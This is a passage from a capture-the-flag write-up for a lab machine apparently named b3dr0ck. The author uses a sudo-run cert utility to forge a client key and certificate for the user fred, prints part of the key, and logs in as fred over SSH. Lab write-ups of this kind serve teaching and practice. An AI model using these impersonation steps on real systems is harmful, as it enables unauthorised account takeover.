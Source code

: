 ```
```

The only other option is to generate a new cert and it looks like I can probably do that for fred and authenticate over as him like we did for barney.

`sudo certutil fred fred`

```
Generating credentials for user: fred (fred)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEA4xl+cwzsBP9F5saOVyWRzOHKaqm9/BjwAUyFLDvQ5XQPapMc
DeZHC3qZNyjJ400cQwPPLn2hRN1WbC/8Uv1gHumbZOKqWe63XZAxnQs6s6+kMdTX
AcV1czQ/CiZg9uBl+yMJLjHa2d0Gv5qhymICFX6S4LVn8GxBdnciSbUCvE+ZlFkP
---SNIP---
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICmDCCAYACAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yMjA5MDIxNTQzNDNaFw0yMjA5MDMxNTQzNDNaMA8xDTALBgNVBAMMBGZy
ZWQwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDjGX5zDOwE/0Xmxo5X
```

So we've recreated the private key and cert for fred, now let's head back over to port 54321 and get the password for fred and then ssh back over as him:

![](images/b3dr0ck9.png)

`chmod 400 id_rsa2`

`ssh -i id_rsa2 fred@$ip`

```
fred@10.10.39.157's password: 
fred@b3dr0ck:~$ 
```
